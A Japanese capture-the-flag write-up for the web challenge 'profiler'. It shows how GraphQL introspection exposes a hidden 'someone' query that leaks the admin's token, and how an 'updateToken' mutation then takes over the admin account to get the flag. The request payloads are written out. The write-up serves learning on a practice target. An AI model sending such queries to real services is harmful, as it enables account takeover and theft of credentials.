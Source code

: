 # profiler

301 pt (59 Solves)

```txt
Let's edit your profile with profiler!

Hint: You don't need to deobfuscate *.js

Notice: Server is periodically initialized
```

## 概要

`Register`と`Login`画面。  

- Register  
`Registered successfully. Your token is [token]. Don't lose it!`と表示される。  
- Login  
  プロフィール画面に遷移。`Update`と`Get FLAG`と`Logout`がある。  
  - Update  
    プロフィール文を更新する。`token`が必要
  - Get FLAG  
    `Sorry, your token is not administrator's one. This page is only for administrator(uid: admin).`と表示される。
  - Logout  
    そのまま。ログアウトされる

tokenが違うらしい。

## 解

cookieを見てみると`eyJ1aWQiOiJ5MGQzbiJ9.Xss_Lw.IlBxusBEtcQMdmOTy6eRjHtcjy4`。  
最初の値`eyJ1aWQiOiJ5MGQzbiJ9`をbase64デコードすると`{"uid":"y0d3n"}`。(y0d3nはログインしてるID)  
`{"uid":"admin"}`に書き換えても「tokenが違う」と怒られて上手くいかない。  

burpで通信を見てみるとGraphqlでいろいろしてる。Graphql playgroundでみてみる。

```txt
querys{
    me
    someone
    flag
}
mutations{
    updateProfile
    updateToken
}
```

といったかんじ。普通に使ってたら`me`,`flag`,`updateProfile`だけつかわれてる。
通信を書き換えてよしなにしていく。

```txt
{"query":"{someone(uid:\"admin\"){uid,name,profile,token}}"}
```

POSTで上のqueryを送信するとadminの情報が返ってくる。

```txt
{
  "data": {
    "someone": {
      "name": "admin",
      "profile": "Hello, I'm admin.",
      "token": "[token]",
      "uid": "admin"
    }
  }
}
```

返ってきたtokenを使って`updateToken`を送信。

```txt
{"query":"mutation{updateToken(token:\"[token]\")}"}
```

成功すると自分のtokenがadminと同じものに書き変わる。

`Get FLAG`を開くとFlag。

```txt
ctf4b{plz_d0_n07_4cc3p7_1n7r05p3c710n_qu3ry}
```
